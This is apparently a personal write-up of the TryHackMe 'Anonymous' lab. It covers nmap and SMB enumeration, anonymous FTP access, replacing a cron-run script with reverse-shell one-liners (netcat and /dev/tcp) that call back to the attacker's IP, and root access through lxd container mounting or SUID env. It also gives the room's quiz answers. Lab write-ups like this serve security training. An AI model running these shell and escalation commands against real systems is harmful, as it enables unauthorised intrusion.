 # TryHackMe - Anonymous - Linux

- [Room](https://tryhackme.com/room/anonymous)

## Nmap

```
┌──(root💀kali)-[~/Documents/tryhackme/anonymous]
└─# nmap -T4 -sC -sV -O -p- 10.10.55.112                                                                                                                                                                                               130 ⨯
Starting Nmap 7.92 ( https://nmap.org ) at 2022-06-30 17:28 EDT
Stats: 0:04:57 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 38.59% done; ETC: 17:41 (0:07:53 remaining)
Stats: 0:08:17 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 55.55% done; ETC: 17:43 (0:06:38 remaining)
Nmap scan report for 10.10.55.112
Host is up (0.21s latency).
Not shown: 65531 closed tcp ports (reset)
PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 2.0.8 or later
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.13.22.56
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_drwxrwxrwx    2 111      113          4096 Jun 04  2020 scripts [NSE: writeable]
22/tcp  open  ssh         OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 8b:ca:21:62:1c:2b:23:fa:6b:c6:1f:a8:13:fe:1c:68 (RSA)
|   256 95:89:a4:12:e2:e6:ab:90:5d:45:19:ff:41:5f:74:ce (ECDSA)
|_  256 e1:2a:96:a4:ea:8f:68:8f:cc:74:b8:f0:28:72:70:cd (ED25519)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 4.7.6-Ubuntu (workgroup: WORKGROUP)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.92%E=4%D=6/30%OT=21%CT=1%CU=34181%PV=Y%DS=4%DC=I%G=Y%TM=62BE199
OS:7%P=x86_64-pc-linux-gnu)SEQ(SP=106%GCD=1%ISR=10B%TI=Z%CI=Z%II=I%TS=A)OPS
OS:(O1=M506ST11NW7%O2=M506ST11NW7%O3=M506NNT11NW7%O4=M506ST11NW7%O5=M506ST1
OS:1NW7%O6=M506ST11)WIN(W1=F4B3%W2=F4B3%W3=F4B3%W4=F4B3%W5=F4B3%W6=F4B3)ECN
OS:(R=Y%DF=Y%T=40%W=F507%O=M506NNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=A
OS:S%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R
OS:=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F
OS:=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%
OS:T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD
OS:=S)

Network Distance: 4 hops
Service Info: Host: ANONYMOUS; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled but not required
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_nbstat: NetBIOS name: ANONYMOUS, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb2-time: 
|   date: 2022-06-30T21:45:44
|_  start_date: N/A
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.7.6-Ubuntu)
|   Computer name: anonymous
|   NetBIOS computer name: ANONYMOUS\x00
|   Domain name: \x00
|   FQDN: anonymous
|_  System time: 2022-06-30T21:45:44+00:00

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 1039.43 seconds
```

## SMB

```
┌──(root💀kali)-[~]
└─# smbclient -L \\10.10.55.112
Enter WORKGROUP\root's password: 

        Sharename       Type      Comment
        ---------       ----      -------
        print$          Disk      Printer Drivers
        pics            Disk      My SMB Share Directory for Pics
        IPC$            IPC       IPC Service (anonymous server (Samba, Ubuntu))
Reconnecting with SMB1 for workgroup listing.

        Server               Comment
        ---------            -------

        Workgroup            Master
        ---------            -------
        WORKGROUP            ANONYMOUS
```

## FTP

- According to our nmap We are allowed to login as anonymous. It does work  
![image](https://user-images.githubusercontent.com/96747355/176789590-00febf49-a0d5-45f4-80c5-79ca143bd02f.png)  
- Here are the files we can download in our machine for further examination  
![image](https://user-images.githubusercontent.com/96747355/176789837-68e01438-4c77-4b90-bf71-b22e6bfb1232.png)  
- Here is the content of the files  
![image](https://user-images.githubusercontent.com/96747355/176790036-bf157c8f-6b52-4e8b-97ae-d518d19a708a.png)  
- It seems like we are allowed to write in the clean.sh file. Also if we check multiple times the scripts folder we can see that the log file is regurlarly updated. It is worth modifyin the script and try to get a reverse shell with it.  
![image](https://user-images.githubusercontent.com/96747355/176791076-258219c8-e3fa-48d4-90c4-677bf7912a2f.png)
- In the picture above we can see that the second ls shows that the log file is bigger and the time is later
- Let's try to modify the clean script with this 
```
#!/bin/bash

netcat 10.13.22.56 4444 -e /bin/bash
```
- We set our listener `rlwrap nc -lvnp 4444`
- We transfer the new file  
![image](https://user-images.githubusercontent.com/96747355/176791697-6d3b82f9-82fd-4720-bbcf-2996cfa89627.png)
- So nothing happens with this. If we check the hint it mentions unexpected results with netcat.
- Let's try with bash instead of netcat `bash -i >& /dev/tcp/10.13.22.56/4444 0>&1` and put the new file in the scripts folder in the ftp  
- We get a shell as the user `namelessone` after a minute or so    
![image](https://user-images.githubusercontent.com/96747355/176949498-db6076e6-9025-4dd3-87f8-86998e37237c.png)  
- We can grab the user flag

## Privilege escalation

- Let's get linpeas in our target `wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh`
- `python3 -m http.server 80`
- From our target `wget http://10.13.22.56/linpeas.sh` and `chmod +x linpeas.sh`
- We are part of interesting groups such as lxd sudo and adm. However sudo -l does not give anything back (we get prompted for the password). Let's try to abuse lxd and follow [this article](https://steflan-security.com/linux-privilege-escalation-exploiting-the-lxc-lxd-groups/) 
- To summarize here are the commands I ran (using the blog post as reference)

```
# From my kali
git clone https://github.com/saghul/lxd-alpine-builder
cd lxd-alpine-builder/
sudo ./build-alpine
# Setup HTTP server to host the image
python3 -m http.server 80
# From the target
wget http://10.13.22.56/alpine-v3.16-x86_64-20220701_1459.tar.gz
mv alpine-v3.16-x86_64-20220701_1459.tar.gz alpine.tar.gz
lxc image import ./alpine.tar.gz --alias myimage
lxd init 
# we push enter to all the prompts to keep default setup
lxc init myimage mycontainer -c security.privileged=true
lxc config device add mycontainer mydevice disk source=/ path=/mnt/root recursive=true
lxc start mycontainer
lxc exec mycontainer /bin/sh
```
- It works, we are root  
![image](https://user-images.githubusercontent.com/96747355/176962259-df97417d-b029-4cba-8fc8-23d738145dc2.png)  
- We can grab the last flag. We need to access to the point where the system is mounted `cd /mnt/root` and we grab the flag `cat root/root.txt`!  

## Privesc alternative quicker way

- Note for this way it is really important to not forget to use a tty shell we can get it after catching our shell with this command `python -c 'import pty; pty.spawn("/bin/sh")'`
- The suid bit is set on env so we can use it to privesc with the command that can be found [here](https://gtfobins.github.io/gtfobins/env/#suid)  
![image](https://user-images.githubusercontent.com/96747355/176964962-96b6f283-6a29-428b-a6a2-58a78108fd94.png)  
- It works

## Questions

1. Enumerate the machine.  How many ports are open? `4`
2. What service is running on port 21? `ftp`
3. What service is running on ports 139 and 445? `smb`
4. There's a share on the user's computer.  What's it called? `pics`
- I let you find the flags :) 
